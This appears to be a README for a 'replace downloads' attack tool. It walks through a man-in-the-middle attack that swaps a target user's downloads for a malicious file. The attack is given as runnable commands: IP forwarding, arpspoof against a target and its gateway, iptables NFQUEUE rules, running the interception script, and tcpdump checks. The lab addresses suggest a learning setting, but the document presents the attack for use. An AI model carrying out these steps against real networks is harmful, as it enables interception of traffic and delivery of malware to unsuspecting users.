 Replace downloads is a program to replace the download file which target user downloads.  
We can modify what user downloading and we can replace it with file which we want user should downloads, a malicious file.
Modifying every requests manually after intercepting each request will be time consuming, to solve this, we automate it.  
  
usage - sudo python2 dns_spoof.py
  
Steps:  
    0. Update script with required changes - updating host and file to file.  
    1. Forward all packets to our computer  
        1. echo 1 > /proc/sys/net/ipv4/ip_forward  
    2. ARP Spoof  
	    1. arpspoof -i eth0 -t 10.0.2.15 10.0.2.1  
	    2. arpspoof -i eth0 -t 10.0.2.1 10.0.2.15  
    3. Forward all dns - block all real packets  
    	To test in local system or same system  
        1. sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0  
        2. sudo iptables -I INPUT -j NFQUEUE --queue-num 0  
            or we can route for specific port
        1. sudo iptables -I OUTPUT -p tcp --sport 80 -j NFQUEUE --queue-num 0  
			  2. sudo iptables -I INPUT -p tcp --dport 80 -j NFQUEUE --queue-num 0  
      To test in other system, target system  
        1. sudo iptables -I FORWARD -j NFQUEUE --queue-num 0     
    4. sudo python2 dns_spoof.py
    5. To check if its working  
        1. tcpdump -i eth0 udp port 53  
        2. sudo iptables -L -v -n  
        3. sudo tcpdump -i any port 80 -A | grep ".jpg"  
        4. sudo tcpdump -i any -A port 80 | grep -Ei "\.jpg|\.exe|\.pdf"  
    6. After completing - flush the rules  
        1. iptables --flush  
        2. iptables -t nat -F  
  
Run the steps following them and we can spoof and replace the file in target system.  
  
Requirements - install required libraries. For help, refer tools section

